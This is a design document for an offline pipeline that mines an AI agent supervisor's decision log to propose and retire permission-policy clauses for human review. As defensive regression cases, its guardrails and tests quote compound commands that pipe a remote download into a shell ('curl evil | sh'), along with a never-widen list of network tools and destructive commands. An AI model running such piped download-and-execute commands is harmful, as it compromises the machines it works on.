

# 11 — Offline Extraction Pipeline (`ingest` / `lint` / `query`)

> Owner: des-pipeline. Status: design. Guesses are marked **[guess]**.
> Scope: the *offline* miner that reads Session Sitter's own decision log and proposes
> candidate clauses for human review. It never writes a live clause and never touches a
> running session.

## TOC
1. Decisions up front
2. Inputs, ranked by signal-to-noise
3. Record changes: the missing tool input, and the human override
4. Operations: `ingest`, `lint`, `query`
5. Candidate kinds table
6. Generalisation
7. Net-growth discipline
8. The LLM call (and the no-model path)
9. Privacy
10. Cron host
11. Caps and cost
12. Dataflow diagram
13. CLI surface
14. On-disk layout
15. Worked example
16. Test invariants
17. Interfaces to other designs
18. Limitations

---

## 1. Decisions up front

| # | Decision | Why |
|---|---|---|
| D1 | The **decision log is the primary corpus**; archived transcripts are an opt-in secondary. | Records are ours, schema-stable, already masked at write time, and each one is a labelled decision. Transcript JSONL is officially unstable. |
| D2 | **Two detectors need no model at all**: `no-clause-matched` (gap) and `human-override`. Both are pure joins over `SupervisionRecord`. | Highest-signal events are structural, not semantic. The pipeline must be useful with `--no-model`. |
| D3 | `ingest` and `lint` are **separate cron jobs** with separate schedules and separate output dirs. | Retirement pressure must not be starved by additions failing. |
| D4 | Every proposal is written as a **clause file with `status: proposed`** plus a sidecar `evidence.json`. Nothing else. The validation gate owns promotion. | One artifact type; ADD-only. |
| D5 | **No proposal without rationale + ≥`min_support` motivating records.** Hard gate in the writer, not a lint. | Measured fix for instruction bloat. |
| D6 | Net clause delta is computed and printed every run; at the ceiling the pipeline is **one-in-one-out** and will refuse to emit an addition without a paired retirement candidate. | +226% growth / 68%-at-500 is the failure mode we are designing against. |
| D7 | Generalisation is **template-based over a parsed shell AST**, never regex-over-the-raw-line, and the emitted `Match:` is required to be *no broader than the observed support set plus one axis*. | The `&&`-chain bug. |
| D8 | Incrementality is a **content hash per source file** in `state.json`; records are append-only so a hash of `(path, size, mtime, sha256-of-tail)` is enough. | Near-free. |
| D9 | Reuse `store.ts`'s lock **mechanism** via `withSessionLock('pipeline')` — a reserved pseudo-session id. Confirmed: the lock is *per-session* (`locksDir/<sessionId>.lock`, atomic `O_EXCL` + owner pid, stale after a TTL), so there is no global lock to take. The pipeline only ever *reads* records, so it needs mutual exclusion against itself, not against the live path. | A reserved id gets the dead-owner recovery and staleness handling for free, and one `ingest` cannot race another. |
| D10 | Cron host: **`launchd` LaunchAgent on macOS**, specified properly. `systemd --user` and GitHub Actions are named follow-ups. | Primary dev platform is darwin. |

---

## 2. Inputs, ranked by signal-to-noise

Ranked best → worst. "Model?" = does extracting the *candidate* need an LLM.

| Rank | Signal | Source fields | Model? | Notes |
|---|---|---|---|---|
| 1 | **No clause matched** — a decision where the supervisor had to reason because policy said nothing. | `decided_by == 'supervisor'` AND `rule == null`, plus `call.tool_name`/`call.input` (**see §3.0 — does not exist yet**) | No | A named gap with the exact command attached. Emit as gap report + candidate. |
| 2 | **Human override** — human contradicted the policy's verdict. | `user_response`, `await_light`, `state`, `assessment.traffic_light`, `rule` | No (detection) / optional (wording) | See §3 — may need a record change. |
| 3 | **Repeated identical verdict on a repeated shape** — same normalised command, same light, N times, never overridden. | `assessment.traffic_light`, `call.shape` (**§3.0**), `session_id` spread | No (detection), yes (wording of a good clause) | The bread-and-butter green/red candidates. |
| 4 | **Escalation timeouts** — orange that expired with no answer. | `timeout_deadline`, `user_response == null`, `state` | No | *Silence is never approval*, so these are denials by default. A shape that always times out is a shape nobody wants: weak red evidence, strong "stop asking" evidence. |
| 5 | **`assessment.issues[].relevant_knowledge`** — the supervisor already cites which practice it leaned on. | `assessment.issues[]` | No | Free clause-usage histogram → feeds `lint` retirement. Confirmed `KnowledgeRef = {scope, entry, source_file?, provenance?, confidence?}` — `source_file` + `entry` is the join key back to a clause, so the uncited detector needs no new field. Each issue also carries `severity`, `reasoning`, `evidence_from_session[]`. |
| 5b | **`events[]`** — the per-record audit trail (`{type, at, ...}`), plus `transitioned_from` / `transition_reason`. | `events`, `transitioned_from` | No | Confirmed present. This is the state history; see §3. |
| 6 | **`blocked_actions` / `recommended_action`** — the supervisor's own rewrite suggestions. | `assessment` | No to collect, yes to generalise | Best source for *yellow* (rewrite) clauses, which are otherwise hard to mine. |
| 7 | **Confidence trough** — clusters of low `assessment.confidence`. | `assessment.confidence` | No to cluster | Ambiguity map: where a clause would most reduce reasoning cost. |
| 8 | **`user_intent` / `agent_intent` text** | `assessment.*_intent` | Yes | Free-text; only used to *word* a candidate whose support was found structurally. |
| 9 | Archived transcripts | `SessionEnd.transcript_path`, or `claude -p --output-format json` | Yes | Opt-in only (§9). Version-pinned parser; on schema mismatch we skip, we do not guess. |

**Confirmed against `src/supervisor/models.ts`** (`SupervisionRecord`, ~line 198): all of `request_id`, `session_id`, `source`, `state`, `decided_by`, `rule`, `created_at`, `updated_at`, `user`/`project`/`team`, `assessment`, `await_light`, `timeout_deadline`, `user_response`, `user_response_at`, `notification_id` exist as named. Two things to know:

- `assessment` is typed `Record<string, unknown> | null` on the record — loose on disk, normalised by `assessmentFrom()` into the full shape (`traffic_light`, `confidence`, `summary`, `agent_intent`, `user_intent`, `waiting_reason`, `recommended_action`, `issues[]`, `blocked_actions`, `should_block_agent`, …). **The pipeline must call `recordFrom()`/`assessmentFrom()` rather than reading raw JSON**, because those fill every key for older/partial files. Free win: no defensive null-checking in detectors.
- Extra fields worth using that were not in the brief: `session_name` and `host` (nullable — never assume set; useful for evidence attribution and for scoping to one machine), `engine_invocation_id`, top-level `blocked_actions`/`allowed_actions`, `delivered_message`, `error`, `original_orange_assessment` (the pre-transition Orange, preserved verbatim — this is the *before* half of an Orange→Yellow rewrite, which makes rank 6 `yellow-rewrite` mining much stronger than I assumed), and `question_spec`/`question_answer`.

Non-inputs, explicitly: the user's own prompt text is never mined for candidates on the default path (§9), and nothing derivable from reading the repo is ever proposed (no "this project uses pnpm" clauses).

### Normalisation (shared by ranks 1–4)

Every record is reduced once to a **shape key** before any counting:

```
shape = sha256( call.tool_name + "\0" + canonical(call.input) )   // §3.0
```

`canonical()` for shell: parse → per-segment `{argv0, subcommand, flags(sorted, values dropped), path-roles}`; drop everything else (cwd-relative paths become role tokens `<repo-file>`, `<outside-repo>`, `<datadir>`). For non-shell tools: `{tool, path-role, mutating?}`. Shape keys are stable across runs and are the join key for support counting, override detection and dedupe.

---

## 3. Record changes: the missing tool input, and the human override

### 3.0 Blocker: the record does not contain the tool call — **fix this first**

I read `src/supervisor/models.ts` expecting to confirm a `tool_input`. There isn't one, and this is the single most important finding in this document.

- `SupervisionRecord.source` is the **channel**, not the tool — `orchestrator.ts` passes values like `'bob'`. It is not the tool name.
- The only tool identity anywhere on the record is `rule.tool_name` (`models.ts:78`) plus `rule.pattern` / `rule.argument_pattern` — and `rule` is populated **only when `decided_by === 'rule'`**.
- Therefore, for the *supervisor*-decided records — which is exactly rank 1, the highest-signal input, the "no clause matched" gap — **we have the verdict and the reasoning but not the command**. `assessment.agent_intent` is a prose paraphrase, not the argv.

Every structural detector in this design is keyed on a shape derived from the tool call. Without it, ranks 1–4 and all of §6 are unimplementable, and the pipeline degrades to LLM-summarising `agent_intent` text — which is precisely the descriptive-summary failure mode we are designing against.

**Required change, and it gates everything else:**

```ts
// src/supervisor/models.ts — additive, nullable, no migration
/** The tool call this decision was about. Null on records written before this field existed. */
call?: {
  tool_name: string;            // 'Bash' | 'Edit' | 'WebFetch' | MCP tool id | …
  /** Masked tool input, verbatim shape. For Bash: {command, description?}. */
  input: Record<string, unknown> | null;
  /** Precomputed canonical shape key (§2), so the offline pipeline never re-parses. */
  shape?: string | null;
} | null;
```

Notes:
- `input` **must be masked at write time** by the existing `src/corpus` masker, before it reaches disk. The pipeline then never has to mask, only assert (§9).
- Writing `shape` at decision time is optional but cheap, and it makes the miner O(n) with no shell parsing at all. It also means the live matcher and the offline miner cannot disagree about what a shape is — the same code produced both. Recommended.
- `rule.tool_name` stays; it is the rule tier's own trace. Do not overload it.
- **Interim, if this change lands late:** the pipeline can only emit gap *reports* (counts of unmatched decisions, by `assessment.summary` clustering) and `override-supersede` proposals keyed on `rule.pattern`. No green/red candidates, no generalisation. Say so in the report rather than guessing at commands from prose.

### 3.1 The human override

**Question:** can we detect "human said no to something policy allowed / yes to something it denied" from today's `SupervisionRecord`?

Partially. We can detect it for the **orange/escalation** path, because that path *has* a `user_response`. We cannot detect it for green and red, because a green is never presented to the human and a red is a refusal — in both cases there is no `user_response` field populated, and the human's actual reaction (retrying by hand, editing the clause, telling the agent "no, don't") lands nowhere in the record.

That is the most valuable signal in the system and today we capture at most a third of it. Required change:

```ts
// src/supervisor/models.ts — additive, all optional, no migration needed
override?: {
  kind: 'contradicted' | 'ratified' | 'bypassed';
  // what the human effectively wanted, in traffic-light terms
  human_light: TrafficLight;
  // where we learned it
  observed_via: 'escalation_response' | 'immediate_retry' | 'explicit_feedback'
              | 'settings_allow_added' | 'clause_edit';
  observed_at: string;      // ISO
  // the clause the human contradicted, if policy had spoken
  rule_id?: string;
  rule_revision?: string;   // pinned policy revision of the session
  note?: string;            // human's words, verbatim, if they gave any
};
```

Three cheap producers, in order of cost:

- **`escalation_response`** — already available; fill it in the existing orange-resolution path. Zero new plumbing.
- **`immediate_retry`** — after a red/denied decision, if the *same shape key* appears again in the same session within N turns and succeeds (or the human runs it themselves), that is a contradiction. Detectable offline by the pipeline alone from existing fields, so it needs no record change — but writing it into `override` at decision time makes it idempotent and auditable. **[guess]** N = 5 turns / 10 min.
- **`settings_allow_added`** — the human added a permission allow-rule for something we denied. Requires watching the settings file; **follow-up, not v1**.

**Correction after reading the model:** I expected to need a `state_history` field. We do not. `SupervisionRecord.events: SupervisionEvent[]` (`{type, at, [k]: unknown}`) is already the audit trail, and `transitioned_from` / `transition_reason` record the last transition explicitly. The timeout-then-answered case is therefore detectable today from `events[]` alone. **No new state field.** What is still missing is only the *interpretation*: `events[]` says what happened, not whether it contradicted policy. That is exactly what the `override` block above adds, and it stays worth adding — deriving it at read time means every consumer re-implements the same heuristic against an untyped `events[]`.

Interface assumption to the validation gate: an `override` with `kind: 'contradicted'` and a `rule_id` is the *only* input that may produce a `supersedes:` proposal. Everything else proposes new clauses.

---

## 4. Operations

### 4.1 `ingest` (cron, additive)

- **Trigger:** LaunchAgent, daily. **[guess]** 03:17 local, off the hour to avoid pile-up.
- **Inputs:** decision-log JSONL under `<dataDir>/records/**`; `state.json`; the compiled policy artifact (for "which clause would have matched"); optionally transcripts if opted in.
- **Steps:**
  1. `withSessionLock('pipeline')` (see D9). Bail on `LockBusy` rather than queue — a second run has nothing to add.
  2. Read `state.json`; for each source file compute the content hash; skip unchanged; for changed files read only from the recorded byte offset.
  3. Mask-check: assert every record passes the `src/corpus` mask predicate. A record that fails is **dropped and counted**, never analysed.
  4. Rehydrate via `recordFrom()` + `assessmentFrom()`, then normalise to shape keys; update `shapes.jsonl` (append-only aggregate: shape → counts per light, first/last seen, sessions, override tallies, matched rule ids).
  5. Run detectors (§5). Each yields `{kind, shape, support, records[], suggested_light, rationale_seed}`.
  6. Apply thresholds and caps; drop anything under `min_support`.
  7. Generalise (§6) → a `Match:` line and a human-readable clause body.
  8. Optional single LLM call per *batch* to word bodies and rationales (§8).
  9. Write proposals + `evidence.json`; write `report.md`; update `state.json` atomically (tmp + rename) as the last step.
- **Outputs:** `<dataDir>/pipeline/proposals/<run-id>/`, a run report, updated aggregates.
- **Idempotency:** a proposal's filename is `<kind>-<shape12>.md`. Re-running over the same records regenerates byte-identical files (LLM wording is cached by `(shape, prompt-hash)` in `wording-cache.json`, so even the model path is idempotent). Nothing is emitted for a shape that already has an open proposal or an `accepted`/`declined`/`retired` clause for the same shape — declined is a **permanent** suppression keyed by shape; re-proposing something a human rejected is the fastest way to get the whole pipeline turned off.
- **Never writes** into `<dataDir>/policy/**`. It writes to `<dataDir>/pipeline/**` and hands paths to the gate.

### 4.2 `lint` (cron, subtractive)

Separate job, separate schedule (weekly **[guess]** Sun 04:07), because retirement must not depend on ingest succeeding.

Detects, all model-free:

- **Never-cited** — accepted clause with zero `relevant_knowledge` citations and zero `rule` matches in the last window (default 60 days) *and* the window contained ≥ `min_exposure` decisions **[guess]** 200. Without the exposure floor a quiet week retires the whole policy.
- **Superseded-in-practice** — a clause whose verdict is overridden more often than upheld (≥5 overrides, override rate > 50%).
- **Subsumed** — clause A's `Match:` is a strict subset of clause B's and both give the same light. Pure set/AST containment on the patterns.
- **Contradictory pair** — two accepted clauses whose `Match:` sets intersect with different lights. Not a retirement; a **must-fix report**, because deterministic matching order decides the outcome silently.
- **Stale-by-anchor** — clause references a path/script that no longer exists.
- **Ceiling pressure** — total accepted clause count vs. `max_clauses` (default 150 **[guess]**, well under the 500 collapse point).

Output: retirement proposals (`status: retired` successors, or a `retire.json` request the gate applies), never in-place edits.

### 4.3 `query`

Not a search engine. `query` is the **read side of the aggregates** — the thing a human runs when they want to know *why* a proposal exists or where policy is thin. It answers, offline, from `shapes.jsonl`:

- `ss pipeline query shape '<cmd>'` → normalised shape key, historical verdicts, which clause matched, override history.
- `ss pipeline query gaps --top 20` → shapes with the most unmatched decisions.
- `ss pipeline query clause <id>` → citation count, override rate, last cited, retirement risk.
- `ss pipeline query cost` → decisions scanned, model calls made, tokens, run durations.

No model. No network. Read-only, no lock needed (aggregates are written by atomic rename).

---

## 5. Candidate kinds

Support = number of *distinct sessions* (not records) unless noted; per-session repetition is one agent looping, not team consensus.

| Kind | Detection rule | Model? | Min support | Emits |
|---|---|---|---|---|
| `green-repeat` | shape seen with light=green (or approved escalation), ≥K sessions, 0 red/denied outcomes, 0 `contradicted` overrides | No to detect; yes to word | 3 sessions **and** 5 records | clause `status: proposed`, suggested `audit` first |
| `red-repeat` | shape with ≥K denied/red outcomes, 0 approvals | No | 2 sessions | proposed red clause (asymmetric: denials are cheap to be wrong about) |
| `yellow-rewrite` | shape where `recommended_action`/`blocked_actions` converge on the same rewrite ≥K times | Yes (to phrase the rewrite) | 3 sessions | proposed yellow clause with the rewrite |
| `override-supersede` | `override.kind == 'contradicted'` with a `rule_id`, ≥2 distinct humans **or** ≥3 occurrences | No | 2 humans / 3 events | successor clause with `supersedes: <rule_id>`, human light |
| `gap` | `decided_by == 'supervisor'` and no `rule` matched, clustered by shape | No | 1 (report) / 3 (candidate) | gap entry in `report.md`; candidate only at 3 |
| `escalation-fatigue` | shape escalated ≥K times, always same answer | No | 4 | proposed clause encoding that answer (stop asking) |
| `timeout-red` | shape whose escalations expire unanswered ≥K times | No | 3 | proposed red + a note that nobody is watching |
| `low-confidence-cluster` | ≥K records, mean `assessment.confidence` below threshold, same shape | No to detect | 5 | *report only*, never an auto-candidate — low confidence means we don't know the right rule |
| `retire-uncited` | §4.2 | No | exposure ≥200 | retirement proposal |
| `retire-subsumed` | §4.2, AST containment | No | n/a | retirement proposal |
| `conflict` | §4.2 intersecting patterns, different lights | No | n/a | must-fix report |

Notes:
- Red is deliberately easier to propose than green. A wrong red costs one escalation; a wrong green costs an incident.
- `low-confidence-cluster` intentionally cannot become a clause. It points a human at a decision, which is the honest output.

---

## 6. Generalisation

The unclaimed differentiator: first-party "don't ask again" stores the literal command line, so it never fires again. We must go exactly one step wider — and no further.

Assume `src/policy/generalise.ts` and `src/policy/shell.ts` (unmerged branch). What I need from them:

```ts
// shell.ts
parse(cmd: string): Segment[]              // one per &&, ||, ;, |, subshell; never one blob
interface Segment { argv0: string; subcommand?: string; flags: Flag[]; operands: Operand[];
                    redirects: Redirect[]; raw: string }
// generalise.ts
lattice(shapes: Shape[]): Candidate[]      // the ordered widening below
render(c: Candidate): string               // the `Match:` line
covers(c: Candidate, cmd: string): boolean // used by the replay gate too
```

### The widening lattice, tried narrow → wide, stop at the first level that covers all observed support

1. exact argv (what first-party does) — rejected as a candidate, it teaches nothing
2. `argv0 + subcommand`, flags fixed → `pnpm test`
3. `+ flag-value wildcards` → `pnpm test <args>`
4. `+ flag-set widening` (any subset of observed flags) → `pnpm test [--watch|--filter=*]`
5. `+ operand role widening` → `<repo-file>` but not `<outside-repo>`
6. `+ subcommand set` → `pnpm {test,lint,typecheck}` only if all were observed with the same light
7. `argv0` alone → **requires human confirmation**, never auto-proposed

### Guardrails (these are the bug fix)

- **Per-segment matching is mandatory.** A `Match:` derived from a segment applies to that segment only. A green on `pnpm test` must not license `pnpm test && curl evil | sh`. Concretely: `covers()` returns green for a compound command **only if every segment is independently covered green**; one uncovered segment makes the whole call uncovered. This is a property of the matcher, and I am asserting it here as a requirement on it, not implementing it in the pipeline.
- **No widening across a light boundary.** If any observed shape inside a proposed level had a different light, that level is rejected outright.
- **Never widen these axes**: redirects, `sudo`/privilege, network egress (`curl`/`wget`/`ssh`/`nc`), paths outside the repo, anything under `<dataDir>/policy/**`, `rm`/`git push --force`/`git reset --hard`. A candidate touching them is pinned at level 2 or dropped.
- **Coverage/precision floor:** the emitted pattern must cover ≥95% of its support set and, replayed over the whole history, must not cover any record with a conflicting light. **Zero conflicts, not "few".**
- **Breadth cap:** if `covers()` over the full historical corpus matches more than `10×` the support set, the candidate is too broad → step back one level.

Emitted clause always carries both the pattern and the support: `Match:` line, then a `## Why` with the motivating decision ids, then `## Evidence` with counts. The gate replays; we do not claim validation.

---

## 7. Net-growth discipline

- Every run's `report.md` opens with one line: `clauses: +A −R = net ΔN (accepted total T / ceiling C)`.
- `A` counts *proposals*, `R` counts *retirement proposals*. We report both proposed and (from the previous run's outcome) accepted, so the number cannot be gamed by proposing retirements nobody merges.
- **Ceiling behaviour**: at `T >= C`, `ingest` emits an addition only if `lint`'s live backlog contains an unmerged retirement candidate to pair with it, and the proposal frontmatter records `pairs_with: <retirement-id>`. If the backlog is empty, additions are held (written to `held/` with the reason) rather than dropped, so the evidence isn't lost.
- **Per-run cap** regardless of ceiling: max 5 additions **[guess]**. A pipeline that proposes 40 clauses gets ignored, which is worse than proposing 3.
- **Rationale gate** (D5): writer throws if `rationale` is empty or `evidence.records.length < min_support`. Tested (§16.7).
- Trend line in `query cost`: clause count over time. If the curve looks like +226%, the pipeline is failing at its own job.

---

## 8. The LLM call

**Where it is used:** *only* to turn an already-detected, already-generalised candidate into prose — clause title, imperative body sentence, rationale. It never decides support, light, or pattern.

- **Model:** same model as the agent (single `ANTHROPIC_MODEL`, no second config to drift). Cheaper model is a follow-up; consistency matters more than pennies at this volume.
- **Cache-friendly shape:** one long stable prefix (instructions + clause-style examples + the current policy's titles), then the batch of candidates as the only varying tail. One call per run, not per candidate.
- **JSON contract:**

```jsonc
// request tail
{"candidates":[{"id":"green-repeat-9f2c...","suggested_light":"green",
  "match":"pnpm test <args>","examples":["pnpm test --filter core"],
  "support":{"sessions":4,"records":11},"gap_context":"no clause matched"}]}
// required response
{"clauses":[{"id":"green-repeat-9f2c...","title":"...","imperative":"...",
  "rationale":"...","confidence":0.0}]}
```

- **Validation:** parse; require every `id` to exist in the request and no extras; `imperative` must be an imperative sentence (no "this repo uses…" — reject a body matching `/^(this|the) (repo|project|codebase)/i`); ≤2 sentences; must not contain a pattern (the pattern comes from §6, not the model).
- **Bad response** (unparseable, missing ids, hallucinated ids, or refusal): log, **fall back to the templated body**, mark the proposal `wording: template`. Never retry more than once. Never block the run.
- **Bounds:** hard token cap per run **[guess]** 30k in / 8k out; `--no-model` and `pipeline.model: none` both fully supported.

### What works with no model at all

Everything that matters:

- gap detection and gap reports (rank 1)
- override detection and `supersede` proposals (rank 2)
- green/red repeat detection, support counting, thresholds
- generalisation (pure AST + lattice)
- all of `lint`: uncited, subsumed, conflicting, stale, ceiling
- all of `query`
- clause bodies via template: `Match: <pattern>` + `Rationale: observed <N> times across <M> sessions, always <light>, never overridden.`

Model-only: nicer titles/prose, and `yellow-rewrite` phrasing. A `--no-model` run is a first-class mode, not a degraded one.

---

## 9. Privacy

| Data | Leaves machine? |
|---|---|
| Decision records | No |
| Shape keys, counts, patterns | Only inside the batch prompt, if the model is enabled |
| Example command lines | Yes, up to 3 per candidate, **after** masking |
| `assessment.*_intent`, `summary` | Only if `pipeline.send_intent: true` (default **false**) |
| User prompt text | Never |
| Transcripts | Never sent whole; only extracted shapes, and only with `pipeline.mine_transcripts: true` (default false) |

- **Masking runs before analysis, not before sending.** A record failing the mask predicate is dropped and counted, so a mask bug shows up as a dropped-record count in the report instead of a leak.
- Opt-out granularity: `mine_transcripts: false` (default) keeps full decision-log mining. Two independent switches, so "don't read my chat logs" never means "no pipeline".
- Team-scoped by construction: only records whose `team` matches the configured team are aggregated. `user` is carried in evidence for override attribution and is **not** sent to the model.
- Proposals are files in git, so redaction is reviewable by a human before it becomes team-visible.

### Staying on the right side of first-party features

Claude Code already writes its own memory (machine-local, no review gate, unversioned) and `/auto-mode-setup` already drafts *permission* rules from hosts/buckets/command names, user-scoped and all-or-nothing. We are not competing on either. Our output is a **team-scoped, git-reviewed clause with a cited rationale and a replay-validated pattern**, gated by a human PR and trialled in `audit` status across thousands of real decisions before it can affect an outcome. Auto memory optimises one developer's convenience; this optimises a team's written policy, with an audit trail of which clause decided what. Where the features overlap (a repeatedly-approved command) we defer: if a shape is already covered by a user's own permission allowlist, we still propose it, because the team-level clause is what makes the decision *citable* — but we say so in the evidence, and we never mine the user's messages, matching first-party's own boundary.

---

## 10. Cron host

**Primary: `launchd` LaunchAgent** (macOS, per-user, no root).

`~/Library/LaunchAgents/com.sessionsitter.pipeline.ingest.plist`:

```xml
<plist version="1.0"><dict>
  <key>Label</key><string>com.sessionsitter.pipeline.ingest</string>
  <key>ProgramArguments</key>
  <array><string>/usr/bin/env</string><string>ss</string>
         <string>pipeline</string><string>ingest</string><string>--quiet</string></array>
  <key>StartCalendarInterval</key><dict>
    <key>Hour</key><integer>3</integer><key>Minute</key><integer>17</integer></dict>
  <key>StandardOutPath</key><string>~/.session-sitter/pipeline/logs/ingest.out</string>
  <key>StandardErrorPath</key><string>~/.session-sitter/pipeline/logs/ingest.err</string>
  <key>LowPriorityIO</key><true/><key>Nice</key><integer>5</integer>
</dict></plist>
```

Second plist for `lint`, weekly (`StartCalendarInterval` with `Weekday 0`, `Hour 4`, `Minute 7`).

- `ss pipeline install-cron` / `uninstall-cron` writes and `launchctl bootstrap`s these. It is the only supported way, so the paths and label stay consistent.
- **`launchd` runs a missed job when the machine wakes**, so a closed laptop catches up. That is the reason to prefer it over `crontab`.
- **Staleness backstop, and it is not optional:** on every CLI invocation, if `state.json.last_ingest` is older than 7 days, print one line — `pipeline: last ingest 12d ago; run 'ss pipeline ingest'`. Laptops are asleep and LaunchAgents get disabled; the backstop is what makes the pipeline survive a broken cron. **[guess]** 7 days.
- `systemd --user` (`.service` + `.timer` with `Persistent=true`) — follow-up, same CLI, same semantics.
- GitHub Actions — optional tier only, for teams that want the miner to run on a shared history. Note: scheduled workflows are **disabled after 60 days of repo inactivity on public repos**, so the staleness backstop matters more there, not less. Not Docker.

---

## 11. Caps and cost

Order of magnitude, **rough — treat as a sizing sketch, not a measurement.**

For ~200 sessions / ~5,000 decisions:

| Item | Estimate |
|---|---|
| Record size | ~2–4 KB each (assessment is the bulk) → ~15 MB total |
| Incremental read per daily run | ~250 new records, ~1 MB |
| Parse + normalise + detect | seconds; O(n) with one hash map |
| Full re-scan (first run / cache bust) | ~15 MB JSON parse, well under a minute |
| Aggregates on disk | `shapes.jsonl` ~ hundreds of KB (one line per distinct shape; **[guess]** 300–800 distinct shapes at this volume) |
| Model calls | **1 per run** |
| Tokens | ~4–8k prompt (mostly cached prefix) + ~1–2k out |
| Model cost | cents per run; ~$1–3/month **[guess]** |

Runaway caps, all configurable, all enforced in code:

- `max_records_per_run` 50,000 → beyond this, process oldest-first and continue next run
- `max_proposals_per_run` 5; `max_retirements_per_run` 10 (retirement is allowed to move faster)
- `max_model_calls_per_run` 1; `max_tokens_per_run` 30k/8k
- `max_runtime` 5 min → checkpoint `state.json` and exit cleanly; next run resumes at the offset
- `max_clauses` 150 ceiling (§7)
- If two runs in a row hit `max_runtime`, log a warning into `report.md`; do not silently degrade.

---

## 12. Dataflow



---

## 13. CLI surface

```
ss pipeline ingest   [--since <iso>] [--full] [--dry-run] [--no-model]
                     [--max-proposals N] [--out <dir>] [--quiet]
ss pipeline lint     [--window 60d] [--dry-run] [--ceiling N]
ss pipeline query    shape <cmd> | gaps [--top N] | clause <id> | cost | status
ss pipeline install-cron   [--ingest-at 03:17] [--lint-at 'sun 04:07']
ss pipeline uninstall-cron
```

- `--dry-run` prints the report and writes nothing (not even `state.json`). Default for a human's first run **[guess]**.
- Exit codes: `0` ok; `1` error; `2` nothing to do (no new records); `3` caps hit / partial run. `2` matters so cron logs aren't noise.
- No `apply`, no `accept`. Promotion is the gate's CLI, and `<dataDir>/policy/**` is red-guarded anyway.

---

## 14. On-disk layout

```
<dataDir>/
  records/**.jsonl              # input, append-only, not ours
  policy/**                     # red-guarded, never written here
  pipeline/
    state.json                  # {version, sources:{path:{hash,size,offset,mtime}},
                                #  last_ingest, last_lint, counters}
    shapes.jsonl                # one line per shape: counts, lights, sessions,
                                #  overrides, matched rule ids, first/last seen
    wording-cache.json          # (shape, prompt-hash) → model wording; makes runs idempotent
    suppressed.json             # shape → {reason:'declined', clause_id, at}
    proposals/<run-id>/
      report.md                 # net delta line first, then gaps, then candidates
      green-repeat-9f2c1a.md    # clause file, status: proposed
      green-repeat-9f2c1a.evidence.json
      held/                     # additions blocked by the ceiling, with reasons
    retirements/<run-id>/
      report.md
      retire-<clause-id>.json
    logs/{ingest,lint}.{out,err}
```

- Everything under `pipeline/` is **derivable**: deleting it costs one full re-scan, nothing more. Except `suppressed.json`, which encodes human decisions — back it up, or better, mirror it in the policy repo. **[guess]** mirroring is the gate's call.
- `state.json` written tmp+rename, last.

---

## 15. Worked example: record → proposal

**Records** (abridged, 11 across 4 sessions, 2 users):

```jsonc
{"request_id":"r-8812","session_id":"s-41","source":"Bash","state":"resolved",
 "decided_by":"supervisor","rule":null,
 "assessment":{"traffic_light":"green","confidence":0.71,
   "agent_intent":"run the unit tests for the core package",
   "summary":"read-only test run, no network, no writes outside repo",
   "issues":[]},
 "user_response":null,"team":"platform","user":"osher",
 "created_at":"2026-08-19T09:12:04Z"}
// tool input: pnpm test --filter core
```

1. **Normalise** → segments: one. `{argv0: pnpm, subcommand: test, flags:[--filter=*], operands:[]}` → `shape 9f2c1a…`
2. **Detector** — `rule` is null on all 11 → also a **gap** (rank 1). All 11 green, 0 overrides, 4 distinct sessions ≥ 3 → `green-repeat` fires. Observed variants: `pnpm test`, `pnpm test --filter core`, `pnpm test --filter cli`, `pnpm test --watch`.
3. **Generalise** — level 2 covers 2/11. Level 3 covers 9/11. Level 4 (flag-set widening over `{--filter=*, --watch}`) covers 11/11. Replay over the full corpus: 11 matches, 0 conflicting lights, breadth 11 ≤ 10×11. Stop at level 4. `Match: pnpm test [--filter=*] [--watch]`. Level 6 (`pnpm {test,lint}`) rejected — `lint` was never observed.
4. **Guardrails** — no redirects, no network, no privilege, all operands in-repo. Pass. Note the per-segment requirement: this clause cannot license `pnpm test && rm -rf dist`.
5. **Word** — one batched model call; on failure the template body is used.
6. **Emit** `proposals/2026-09-01T0317/green-repeat-9f2c1a.md`:

```markdown
---
id: green-repeat-9f2c1a
status: proposed
kind: green-repeat
light: green
team: platform
proposed_by: pipeline
proposed_at: 2026-09-01T03:17:22Z
evidence: green-repeat-9f2c1a.evidence.json
support: {sessions: 4, records: 11, users: 2, overrides: 0}
suggest_status: audit
---

# Running the package test suite is allowed

Allow `pnpm test` with filter and watch flags; it is read-only, writes only
inside the repo, and makes no network calls.

Match: `pnpm test [--filter=*] [--watch]`

## Why
Escalated to a human 11 times across 4 sessions and 2 users between
2026-08-19 and 2026-08-31. Every time the verdict was green and no human ever
contradicted it. No clause matched, so the supervisor re-reasoned from scratch
on each call — 11 avoidable model decisions.

## Evidence
requests: r-8812, r-8867, r-8901, … (see evidence.json)
variants: pnpm test · --filter core · --filter cli · --watch
```

7. `report.md` header: `clauses: +1 −2 = net −1 (accepted total 47 / ceiling 150)`.
8. Hand off. The gate replays it in `audit`; if the audit verdict matches the historical verdict across the next N real decisions, a human promotes it.

---

## 16. Test invariants

1. **Idempotence.** Two `ingest` runs over identical records produce byte-identical proposal files and an unchanged `state.json` (modulo `last_ingest`).
2. **Incrementality.** Appending one record re-reads only that record's file, from the stored offset; a run with no new records exits `2` and writes no proposals.
3. **No policy writes.** A run with a mocked filesystem asserts zero writes under `<dataDir>/policy/**`. **Fails the build if violated.**
4. **Declined is permanent.** A shape in `suppressed.json` is never re-proposed, even after 100× more supporting records.
5. **Support floor.** A shape with support below `min_support` never appears as a candidate, only in the gap report.
6. **Distinct-session counting.** 50 records in one session do not reach a 3-session threshold.
7. **Rationale gate.** Constructing a proposal with an empty rationale or `evidence.records == []` throws.
8. **Generalisation is never lossy on lights.** For every emitted `Match:`, replaying the full corpus yields **zero** records with a light conflicting with the proposed one.
9. **Compound-command safety.** A green clause for `pnpm test` does not cover `pnpm test && curl x | sh`. Explicit regression test with that exact string.
10. **Breadth cap.** A candidate matching >10× its support set steps back a level; assert the emitted level.
11. **Never-widen list.** Candidates involving `sudo`, redirects, network binaries, out-of-repo paths, or `<dataDir>/policy` are pinned at level 2 or dropped — one test per axis.
12. **No-model parity.** `--no-model` produces the same set of proposals, same shapes, same `Match:` lines, differing only in body prose and a `wording: template` marker.
13. **Bad model response.** Unparseable / hallucinated-id / refusal responses each fall back to templates and still complete with exit `0`.
14. **Mask enforcement.** A record containing an unmasked credential-shaped string is dropped, counted in the report, and never reaches the model prompt.
15. **Privacy defaults.** With defaults, no transcript file is opened and no `*_intent` text appears in the model prompt — assert on the serialised prompt.
